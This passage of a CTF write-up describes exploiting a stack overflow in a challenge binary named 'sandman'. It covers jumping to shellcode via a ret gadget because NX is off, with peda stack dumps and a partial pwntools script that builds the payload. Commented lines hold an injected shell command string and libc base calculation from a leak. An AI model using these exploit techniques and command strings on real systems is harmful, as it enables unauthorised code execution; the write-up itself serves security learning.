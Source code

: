 At this point I gave up. This is not actually a good challenge anymore, it's
just annoying. Having everything in place but not being able to actually get
useful output was very frustrating. But it kept bothering me, I was so close.
So I decided to try solve it even though the CTF was already over.


I missed a very obvious thing during debugging. If we look at the stack print
of `peda` right before the return, we can see that directly after the return
address there is a pointer in the middle of our buffer on the stack.

```
[------------------------------------stack-------------------------------------]
0000| 0x7ffc467f1128 --> 0x7f7b40863890 (<system>:      test   rdi,rdi)
0008| 0x7ffc467f1130 --> 0x7ffc467f1084 --> ('A' <repeats 115 times>, "jhH...")
```

Remember there is no `NX` so we can jump to our buffer on the stack and execute
code. So the new plan is:

  1. Put shellcode inside buffer (must not contain `NULL` bytes)
  2. Overwrite return address to point to another `return` instruction
  3. Return again to our buffer, executing our shellcode
  4. Spawn shell

Fortunately this finally resulted in a working exploit :) This is the stack
right before the return:

```
[------------------------------------stack-------------------------------------]
0000| 0x7ffed1577438 --> 0x401174 (ret)
0008| 0x7ffed1577440 --> 0x7ffed1577394 --> 0x9090909090909090
```

Two returns later we are in the shellcode :) I used the shell spawning
shellcode `shellcraft.amd64.linux.sh` from `binjitsu`. For more details here is
the python script I wrote:

```python
from pwn import *  # NOQA

context.os = 'linux'
context.arch = 'amd64'

velf = ELF('./sandman')


def child_pwn(read_leak=None):

    # we can control this registers via the buffer
    rdx = 0x4142434445464748
    rbp = 0x4041424345464748
    rsi = 0x1111  # == rax == rcx
    # rdi = directly into our buffer, right after http://

    pl = ""
    pl += "B"
    pl += p64(rdx)
    pl += "KLMNOP"
    pl += p16(rsi)
    pl += p64(rbp)
    #cmd = "touch pwnd; id; ;pwd;ls -al;cat flag; #"
    #pl = "http://" + cmd + 'A' * (560 - 8 - len(pl) - len(cmd)) + pl

    #libc = ELF("/usr/lib64/libc-2.22.so")
    #offset_read = libc.symbols['read']
    #offset_system = libc.symbols['system']
    #libc_base = read_leak - offset_read
    #log.info("libc base is: " + hex(libc_base))

```